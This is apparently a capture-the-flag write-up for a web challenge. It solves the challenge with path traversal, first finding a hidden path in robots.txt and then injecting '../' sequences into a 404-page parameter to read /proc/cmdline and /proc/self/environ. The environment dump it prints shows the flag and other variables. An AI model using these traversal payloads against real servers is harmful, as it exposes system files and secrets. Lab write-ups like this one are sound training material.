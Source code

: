 # Writeup

## Solve process 1
The challenge deeply hints that something is wrong with the environment, and begs us to enter an invalid path.

When we enter an invalid path, we see a funky 404 page, specifically one with what looks to be a `/` in it.

## Solve process 2
Start at `robots.txt`

This says to avoid a path, so we enter it, and get sent to the 404 page.

## 404 page:

`cave=adventure/secret_map`

Combined with the hint for environment, this looks like this may be path injection.

Indeed, entering `../../../../../../../../../../proc/cmdline` reveals `initrd=\initrd.img WSL_ROOT_INIT=1 panic=-1 nr_cpus=12 hv_utils.timesync_implicit=1 console=hvc0 debug pty.legacy_count=0`

Changing it to `cave=adventure/../../../../../../../../../../proc/self/environ`, we get the contents of the environment and the flag.

```
HOSTNAME=17ca8307c07fPYTHON_VERSION=3.11.9PWD=/opt/chalDOMAIN=your-domainPYTHON_SETUPTOOLS_VERSION=65.5.1HOME=/home/unprivilegedLANG=C.UTF-8GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696DFLAG=sun{lf1_us1ng_proc_f1les_1s_fUN}SHLVL=0PYTHON_PIP_VERSION=24.0PYTHON_GET_PIP_SHA256=6fb7b781206356f45ad79efbb19322caa6c2a5ad39092d0d44d0fec94117e118PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/66d8a0f637083e2c3ddffc0cb1e65ce126afb856/public/get-pip.pyPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

flag: `sun{lf1_us1ng_proc_f1les_1s_fUN}`
